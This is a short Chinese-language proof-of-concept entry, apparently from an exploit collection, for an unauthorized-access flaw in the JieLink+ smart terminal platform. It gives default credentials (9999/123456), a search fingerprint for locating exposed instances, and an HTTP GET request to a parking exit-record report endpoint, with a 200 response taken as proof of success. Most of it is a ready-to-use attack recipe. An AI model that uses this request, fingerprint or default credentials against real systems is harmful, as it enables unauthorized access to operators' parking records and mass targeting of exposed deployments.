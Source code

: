 ﻿# JieLink+智能终端操作平台 未授权访问4

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
GET /Report/ParkOutRecord/Index HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：JieLink+智能终端操作平台 未授权访问4.poc

